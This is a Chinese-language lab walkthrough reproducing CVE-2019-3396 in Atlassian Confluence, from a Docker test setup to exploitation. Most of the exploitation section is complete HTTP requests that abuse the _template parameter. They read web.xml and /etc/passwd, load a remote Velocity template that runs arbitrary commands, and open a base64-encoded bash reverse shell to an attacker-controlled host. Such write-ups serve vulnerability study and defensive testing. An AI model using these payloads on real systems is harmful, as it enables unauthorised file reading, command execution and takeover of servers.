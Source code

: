 # Atlassian Confluence 路径穿越与命令执行漏洞 CVE-2019-3396

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书：

![image-20220221212552097](./images/202202212125230.png)

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：

![image-20220221212055528](./images/202202212120637.png)

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：

![image-20220221212256534](./images/202202212122657.png)

配置系统管理员账户 Configure User Management / Configure System Administrator Account

![image-20220221220412118](./images/202202212204338.png)

安装完成之后，新建一个话题，然后，选择其他宏→小工具连接器

![image-20220221221038964](./images/202202212210096.png)

## 漏洞复现

### 读取文件web.xml

点击插入，抓包并修改，发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![image-20220221220956744](./images/202202212209903.png)

### 读取/etc/passwd

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

![image-20220221222031476](./images/202202212220650.png)

### 远程代码执行

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令

修改请求中_template参数的值，可以包含远程文件，支持https协议，http目前无法利用

使用python3开启一个简单的ftp服务器

```
python3 -m pip install pyftpdlib
python3 -m pyftpdlib -p 8888
```

在/home/kali目录下添加confluence.vm文件，内容为

```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

修改_template参数的值为ftp://localhost:8888/confluence.vm并在其后加入command值，设置为id

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"http://192.168.174.128:8888/confluence.vm","command":"id"}}}
```

发送后成功执行命令

![image-20220221223857118](./images/202202212238258.png)

### 反弹shell

使用base64编码来绕过java的机制

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

发送数据包，将command值换为base64的payload

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Content-Length: 308
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.174.128:8090
Referer: http://192.168.174.128:8090/pages/createpage.action?useDraft=true&spaceKey=TEST&draftId=98362&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://192.168.174.128:8888/confluence.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"}}}
```

发送后成功反弹shell

![image-20220221224340304](./images/202202212243371.png)

